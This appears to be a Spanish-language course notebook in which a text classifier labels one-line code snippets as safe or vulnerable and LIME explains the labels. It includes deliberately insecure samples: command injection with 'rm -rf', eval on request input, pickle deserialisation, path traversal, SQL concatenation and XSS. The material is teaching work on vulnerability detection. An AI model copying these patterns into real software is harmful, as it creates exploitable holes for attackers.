

Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: document, getElementById. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: Command Injection
Predicción del modelo: seguro
Probabilidad seguro: 0.9056
Probabilidad vulnerable: 0.0944

Código:
subprocess.call('ping -c 1 ' + host, shell=True)

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,True,-0.180133,disminuye probabilidad de vulnerable
1,subprocess,-0.130284,disminuye probabilidad de vulnerable
2,1,-0.063752,disminuye probabilidad de vulnerable
3,c,-0.009060,disminuye probabilidad de vulnerable
4,ping,-0.008511,disminuye probabilidad de vulnerable
5,host,-0.008377,disminuye probabilidad de vulnerable
6,shell,-0.007226,disminuye probabilidad de vulnerable
7,call,-0.004852,disminuye probabilidad de vulnerable




Interpretación:
LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.
Caso: Ejecución dinámica con eval
Predicción del modelo: seguro
Probabilidad seguro: 0.7897
Probabilidad vulnerable: 0.2103

Código:
result = eval(request.GET.get('expression'))

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,expression,-0.087489,disminuye probabilidad de vulnerable
1,GET,0.000009,aumenta probabilidad de vulnerable
2,request,0.000007,aumenta probabilidad de vulnerable
3,eval,0.000005,aumenta probabilidad de vulnerable
4,result,0.000004,aumenta probabilidad de vulnerable
5,get,0.000002,aumenta probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: GET, request, eval, result, get. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: Path Traversal
Predicción del modelo: seguro
Probabilidad seguro: 0.6917
Probabilidad vulnerable: 0.3083

Código:
file_content = open('/var/www/files/' + request.args.get('filename')).read()

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,filename,-0.071873,disminuye probabilidad de vulnerable
1,open,-0.054483,disminuye probabilidad de vulnerable
2,var,0.003155,aumenta probabilidad de vulnerable
3,files,0.003098,aumenta probabilidad de vulnerable
4,www,0.002796,aumenta probabilidad de vulnerable
5,get,0.000606,aumenta probabilidad de vulnerable
6,request,0.000510,aumenta probabilidad de vulnerable
7,args,0.000428,aumenta probabilidad de vulnerable
8,file_content,0.000318,aumenta probabilidad de vulnerable
9,read,0.000020,aumenta probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: var, files, www, get, request, args. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: Deserialización insegura
Predicción del modelo: seguro
Probabilidad seguro: 0.965
Probabilidad vulnerable: 0.035

Código:
obj = pickle.loads(request.data)

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,obj,0.0,disminuye probabilidad de vulnerable
1,pickle,0.0,disminuye probabilidad de vulnerable
2,loads,0.0,disminuye probabilidad de vulnerable
3,request,0.0,disminuye probabilidad de vulnerable
4,data,0.0,disminuye probabilidad de vulnerable




Interpretación:
LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.


In [17]:
def explicar_fragmento_con_lime(codigo, caso, num_features=10):
    pred_proba = model.predict_proba([codigo])[0]
    pred_label = int(np.argmax(pred_proba))

    exp_local = explainer.explain_instance(
        codigo,
        predict_proba_for_lime,
        num_features=num_features,
        labels=[0, 1],
    )

    pesos_vulnerable = pd.DataFrame(
        exp_local.as_list(label=1),
        columns=["token_o_patron", "peso_hacia_vulnerable"]
    )
    pesos_vulnerable["influencia"] = np.where(
        pesos_vulnerable["peso_hacia_vulnerable"] > 0,
        "aumenta probabilidad de vulnerable",
        "disminuye probabilidad de vulnerable"
    )

    print("=" * 100)
    print("Caso:", caso)
    print("Predicción del modelo:", class_names[pred_label])
    print("Probabilidad seguro:", round(pred_proba[0], 4))
    print("Probabilidad vulnerable:", round(pred_proba[1], 4))
    print("\nCódigo:")
    print(codigo)
    print("\nTokens o patrones que influyeron según LIME para la clase 'vulnerable':")
    display(pesos_vulnerable)

    plt.figure(figsize=(8, 4))
    sns.barplot(data=pesos_vulnerable, x="peso_hacia_vulnerable", y="token_o_patron", orient="h")
    plt.axvline(0, color="black", linewidth=1)
    plt.title(f"LIME: influencia hacia 'vulnerable' - {caso}")
    plt.xlabel("Peso hacia la clase vulnerable")
    plt.ylabel("Token o patrón")
    plt.show()

    tokens_positivos = pesos_vulnerable[pesos_vulnerable["peso_hacia_vulnerable"] > 0]["token_o_patron"].tolist()
    if tokens_positivos:
        print("Interpretación:")
        print(
            "El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: "
            + ", ".join(tokens_positivos[:6])
            + ". Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras."
        )
    else:
        print("Interpretación:")
        print("LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.")


# Explicar todos los fragmentos vulnerables nuevos.
for item in fragmentos_vulnerables_nuevos:
    explicar_fragmento_con_lime(item["codigo"], item["caso"], num_features=10)

### Preguntas de análisis para estudiantes

1. ¿Qué tokens aumentaron más la probabilidad de `vulnerable`?
2. ¿Coinciden esos tokens con el riesgo real del fragmento?
3. ¿Hubo algún fragmento vulnerable clasificado como `seguro`?
4. ¿Qué limitaciones tiene explicar código fuente como si fuera texto?
5. ¿Cómo mejoraría el modelo para reconocer patrones semánticos, no solo tokens?

### Nota metodológica

Si el modelo fue entrenado con ejemplos sintéticos, sus explicaciones también reflejarán esos ejemplos sintéticos. Para un proyecto real, use datos balanceados y reales con fragmentos seguros y vulnerables, revise falsos positivos/falsos negativos y valide con herramientas de seguridad adicionales.

## Reto para estudiantes

1. Cambia el modelo por `LinearSVC`, `RandomForestClassifier` o `XGBoost` si está disponible.
2. Ajusta `ngram_range`, `max_features` y `min_df` del vectorizador.
3. Reporta cuál métrica priorizarías en un sistema real de seguridad y por qué.
4. Identifica 5 falsos positivos y 5 falsos negativos.
5. Propón mejoras para pasar de fragmentos aislados a análisis de repositorios completos.

## Criterios de evaluación sugeridos

| Criterio | Peso |
|---|---:|
| Carga y exploración correcta del dataset | 20% |
| Limpieza y normalización de etiquetas | 15% |
| Entrenamiento reproducible del modelo | 20% |
| Evaluación con métricas adecuadas | 20% |
| Explicación con LIME e interpretación crítica | 15% |
| Discusión de limitaciones y uso responsable | 10% |

## Cierre

La minería de datos aplicada a ciberseguridad permite identificar patrones asociados a vulnerabilidades, pero los modelos dependen fuertemente de los datos de entrenamiento. En escenarios reales, estos modelos deben combinarse con análisis estático, pruebas dinámicas, revisión humana y prácticas de desarrollo seguro.

# ACTIVIDAD

,N.º,Tipo de fragmento,Etiqueta real,Predicción del modelo,Prob. seguro,Prob. vulnerable,¿Correcto?
0,1,SQL Injection,vulnerable,seguro,0.853588,0.146412,No
1,2,Code Injection,vulnerable,vulnerable,0.331477,0.668523,Sí
2,3,XSS,vulnerable,seguro,0.530956,0.469044,No
3,4,Command Injection,vulnerable,seguro,0.763064,0.236936,No
4,5,Path Traversal,vulnerable,seguro,0.820374,0.179626,No
5,6,Safe SQL,seguro,seguro,0.956115,0.043885,Sí
6,7,Safe Output,seguro,seguro,0.962733,0.037267,Sí
7,8,Safe DOM,seguro,seguro,0.522056,0.477944,Sí
8,9,Safe Command,seguro,seguro,0.907894,0.092106,Sí
9,10,Safe Path,seguro,seguro,0.972093,0.027907,Sí


Caso: SQL Injection
Predicción del modelo: seguro
Probabilidad seguro: 0.8536
Probabilidad vulnerable: 0.1464

Código:
sql = 'SELECT * FROM orders WHERE user_id = ' + req.id

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,SELECT,-0.110261,disminuye probabilidad de vulnerable
1,FROM,-0.093088,disminuye probabilidad de vulnerable
2,user_id,-0.081237,disminuye probabilidad de vulnerable
3,id,-0.038215,disminuye probabilidad de vulnerable
4,WHERE,-0.014743,disminuye probabilidad de vulnerable
5,sql,-0.003562,disminuye probabilidad de vulnerable
6,orders,-0.003315,disminuye probabilidad de vulnerable
7,req,-0.002403,disminuye probabilidad de vulnerable




Interpretación:
LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.
Caso: Code Injection
Predicción del modelo: vulnerable
Probabilidad seguro: 0.3315
Probabilidad vulnerable: 0.6685

Código:
eval('print(' + user_input + ')')

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,print,0.106953,aumenta probabilidad de vulnerable
1,user_input,0.023990,aumenta probabilidad de vulnerable
2,eval,0.000317,aumenta probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: print, user_input, eval. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.
Caso: Command Injection
Predicción del modelo: seguro
Probabilidad seguro: 0.7631
Probabilidad vulnerable: 0.2369

Código:
os.popen('rm -rf ' + dir_name)

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,os,-0.456692,disminuye probabilidad de vulnerable
1,dir_name,0.000140,aumenta probabilidad de vulnerable
2,popen,0.000119,aumenta probabilidad de vulnerable
3,rm,0.000108,aumenta probabilidad de vulnerable
4,rf,0.000084,aumenta probabilidad de vulnerable




Interpretación:
El modelo se inclinó hacia 'vulnerable' principalmente por patrones como: dir_name, popen, rm, rf. Estos tokens aparecen asociados en el entrenamiento con construcciones inseguras.


In [27]:

# Actividad Final: Evaluación con fragmentos seleccionados
fragmentos_reto = [
    # 5 Vulnerables
    "sql = 'SELECT * FROM orders WHERE user_id = ' + req.id",
    "eval('print(' + user_input + ')')",
    "document.write('Hello ' + window.location.search)",
    "os.popen('rm -rf ' + dir_name)",
    "open('/tmp/' + fileName).read()",
    # 5 Seguros
    "cursor.execute('SELECT * FROM orders WHERE user_id = ?', (req.id,))",
    "print(int(user_input))",
    "document.getElementById('msg').textContent = 'Hello ' + name;",
    "subprocess.run(['ls', '-l', dir_name], check=True)",
    "path = os.path.basename(fileName); open(os.path.join('/tmp/', path)).read()"
]

tipos_fragmento = [
    "SQL Injection", "Code Injection", "XSS", "Command Injection", "Path Traversal",
    "Safe SQL", "Safe Output", "Safe DOM", "Safe Command", "Safe Path"
]

etiquetas_reales = ["vulnerable"] * 5 + ["seguro"] * 5

probs_reto = model.predict_proba(fragmentos_reto)
preds_reto = model.predict(fragmentos_reto)

df_reto = pd.DataFrame({
    "N.º": range(1, 11),
    "Tipo de fragmento": tipos_fragmento,
    "Etiqueta real": etiquetas_reales,
    "Predicción del modelo": [class_names[p] for p in preds_reto],
    "Prob. seguro": probs_reto[:, 0],
    "Prob. vulnerable": probs_reto[:, 1],
})
df_reto["¿Correcto?"] = np.where(df_reto["Etiqueta real"] == df_reto["Predicción del modelo"], "Sí", "No")

display(df_reto)

# LIME para 3 fragmentos vulnerables (fragmentos 1, 2, 4)
vulnerables_a_explicar = [0, 1, 3] # Indices 0, 1, 3 en fragmentos_reto

for i in vulnerables_a_explicar:
    explicar_fragmento_con_lime(fragmentos_reto[i], tipos_fragmento[i])
